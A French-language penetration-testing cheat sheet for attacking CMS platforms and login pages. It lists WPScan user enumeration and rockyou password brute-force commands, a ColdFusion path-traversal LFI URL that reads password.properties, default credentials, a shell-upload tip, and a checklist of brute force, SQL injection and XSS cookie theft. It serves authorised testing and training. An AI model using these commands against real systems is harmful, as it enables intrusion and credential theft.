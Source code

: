 ### WPScan
```bash
wpscan --url http://10.10.10.10 --enumerate u
wpscan --url example.com -e vp --plugins-detection mixed --api-token API_TOKEN
wpscan --url example.com -e u --passwords /usr/share/wordlists/rockyou.txt
wpscan --url example.com -U admin -P /usr/share/wordlists/rockyou.txt
```

### Drupal
```bash
droopescan scan drupal -u http://example.org/ -t 32
find version > /CHANGELOG.txt
```

### Adobe Cold Fusion
```bash
# vérifier la version /CFIDE/adminapi/base.cfc?wsdl
# fckeditor Version 8 LFI > http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

### Elastix
- Recherchez les vulnérabilités sur Google
- Les identifiants par défaut sont admin:admin à /vtigercrm/
- Possibilité de télécharger un shell dans la photo de profil

### Joomla
- Page d'administration - /administrator
- Fichiers de configuration : configuration.php | diagnostics.php | joomla.inc.php | config.inc.php

### Mambo
- Fichiers de configuration >> configuration.php | config.inc.php

### Page de connexion
- Essayez des identifiants communs tels que admin/admin, admin/password et falafel/falafel.
- Déterminez si vous pouvez énumérer les noms d'utilisateur en fonction d'un message d'erreur verbeux.
- Testez manuellement l'injection SQL. Si cela nécessite une injection SQL plus complexe, exécutez SQLMap dessus.
- Si tout échoue, exécutez hydra pour forcer les identifiants.
- Afficher le code source
- Utiliser le mot de passe par défaut
- Brute force le répertoire d'abord (parfois, vous n'avez pas besoin de vous connecter pour exploiter la machine)
- Rechercher des identifiants par bruteforce du répertoire
- Brute force des identifiants
- Rechercher des identifiants dans un autre port de service
- Énumération pour les identifiants
- S'inscrire d'abord
- Injection SQL
- XSS peut être utilisé pour obtenir le cookie administrateur
- Brute force du cookie de session

